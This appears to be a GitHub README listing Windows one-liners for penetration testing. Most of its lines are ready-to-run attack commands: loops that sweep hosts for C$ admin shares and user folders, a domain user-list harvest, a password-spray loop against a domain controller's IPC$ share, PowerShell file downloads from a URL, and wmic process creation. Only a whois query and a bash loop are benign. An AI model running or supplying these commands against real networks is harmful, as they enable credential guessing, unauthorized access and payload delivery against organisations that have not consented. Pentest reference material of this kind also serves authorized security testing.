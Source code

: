 # oneliners
One line DOS commands useful during pentests

for /f %a in (hosts.txt) do dir /b /s \\\\%a\\C$\\Users\\file*

for /f %a in (hosts.txt) do @if exist \\\\%a\\C$\\Users\\ echo users found on %a

Build a user list, but will need to edit the output before using
for /f "skip=2 tokens=1,2,3" %i in ('net user /domain') do @echo %i >>testuser.txt & @echo %j >>testuser.txt & @echo %k >>testuser.txt

password spray
@FOR /F %n in (users.txt) DO @FOR /F %p in (pass.txt) DO @net use \\DOMAINCONTROLLER\IPC$ /user:DOMAIN\%n %p 1>NUL 2>&1 && @echo [*] %n:%p && @net use /delete \\DOMAINCONTROLLER\IPC$ > NUL 

invoke-webrequest -uri url -outfile filename
(New-Object System.Net.WebClient).DownloadFile("url","output")

wmic process call create "cmd.exe /c calc.exe"

(Bash) for i in (cat filename); do echo $i; done

With GDPR there is different information available between variosu registrars.  This whois query will query the specific registrar and return results direct from the registrar:
whois -h $(whois apple.com | grep 'WHOIS Server' | cut -d: -f 2) apple.com









